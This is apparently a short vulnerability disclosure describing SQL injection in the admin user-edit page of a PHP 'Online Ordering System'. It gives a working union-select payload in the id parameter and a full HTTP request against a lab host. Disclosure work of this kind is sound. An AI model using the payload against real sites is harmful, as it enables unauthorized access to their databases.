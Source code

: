 # Online Ordering System By janobe has SQL injection vulnerability

Author： k0xx

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/admin/user/index.php?view=edit&id=

Vulnerability location: /ordering/admin/user/index.php?view=edit&id= //id is Injection point

[+]Payload: /ordering/admin/user/index.php?view=edit&id=-8%27%20union%20select%201,database(),3,4,5,6--+ //id is Injection point

Current database name: multistoredb

```sql
GET /ordering/admin/user/index.php?view=edit&id=-8%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/168951372-83af0350-c83e-4b13-836e-d9b37c1f1f2b.png)

![image](https://user-images.githubusercontent.com/54017627/168951309-eb49aa42-ff2d-4a57-a452-11497f2ed117.png)

